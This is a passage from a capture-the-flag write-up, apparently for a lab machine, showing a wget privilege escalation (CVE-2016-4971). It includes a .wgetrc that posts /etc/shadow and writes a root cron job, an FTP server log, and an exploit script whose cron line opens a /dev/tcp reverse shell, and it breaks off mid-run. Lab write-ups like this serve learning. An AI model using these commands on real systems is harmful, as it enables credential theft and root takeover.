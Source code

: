 I searched if there's any exploit with `wget`, and there are Arbitrary File Upload exploits.

### CVE-2016-4971

```bash
atanas@kotarak-dmz:/tmp/ftptest$ cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_cat <<_EOF_>.wgetrc
> post_file = /etc/shadow
> output_document = /etc/cron.d/wget-root-shell
> 
_EOF_
```

After then, let's open a ftp server using `pyftpdlib`

```bash
atanas@kotarak-dmz:/tmp/ftptest$ authbind python -m pyftpdlib -p21 -w
authbind python -m pyftpdlib -p21 -w

[I 2025-02-25 07:48:35] >>> starting FTP server on 0.0.0.0:21, pid=67160 <<<
[I 2025-02-25 07:48:35] concurrency model: async
[I 2025-02-25 07:48:35] masquerade (NAT) address: None
[I 2025-02-25 07:48:35] passive ports: None
[I 2025-02-25 07:48:48] 10.0.3.1:59480-[] FTP session opened (connect)
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[] FTP session opened (connect)
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[anonymous] USER 'anonymous' logged in.
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[anonymous] RETR /tmp/ftptest/.wgetrc completed=1 bytes=70 seconds=0.0
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[anonymous] FTP session closed (disconnect).
```

Then, prepare `wget-exploit.py` to enable redirection `wget` request to `.wgetrc`.
The code is here : https://www.exploit-db.com/exploits/40064
I modified the IP and cronjob part :

```bash
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.0.3.1/9000 0>&1' \n"
```

Let's run it.

```perl
atanas@kotarak-dmz:/tmp$ authbind python wget-exploit.py
authbind python wget-exploit.py
Ready? Is your FTP server running?
FTP found open on 10.0.3.1:21. Let's go then

Serving wget exploit on port 80...


We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wgetrc via ftp redirect vuln. It should land in /root 

10.0.3.133 - - [25/Feb/2025 07:50:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.0.3.1:21/.wgetrc 

We have a volunteer requesting /archive.tar.gz by POST :)
```
